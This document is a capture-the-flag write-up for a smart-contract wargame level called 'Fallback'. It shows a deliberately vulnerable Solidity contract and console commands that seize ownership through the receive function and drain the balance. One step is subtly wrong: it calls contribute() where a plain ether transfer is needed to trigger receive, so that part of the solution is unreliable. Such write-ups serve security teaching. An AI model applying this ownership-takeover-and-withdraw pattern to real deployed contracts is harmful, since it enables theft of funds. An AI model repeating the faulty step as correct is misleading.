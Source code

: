 # Level 1 - Fallback

### Objectives

The objectives of this level are as follows:

1. Claim ownership of the contract
2. Reduce its balance to 0

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Solution

We are going to exploit the fallback function within this contract, namely:

```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

According to Solidity documentation, "The fallback function is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no receive Ether function. The fallback function always receives data, but in order to also receive Ether it must be marked payable."

First, we are going to contribute to the contract by sending some value less than 0.001 ether:

```
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0005')})
```

We can verify that we successfully contributed to the contract by calling the getContribution() function:

```
await contract.getContribution().then(v => v.toString())
```

Next, we are going to send some ether to the contract in order to execute the fallback function:

```
await contract.contribute.sendTransaction({value: "100"})
```

By sending ether to the contract, we have become the contract owner. We can verify this by ensuring that the following outputs our wallet address:

```
await contract.owner()
```

Finally, we can empty the contract and complete the level:

```
await contract.withdraw()
```

Done!
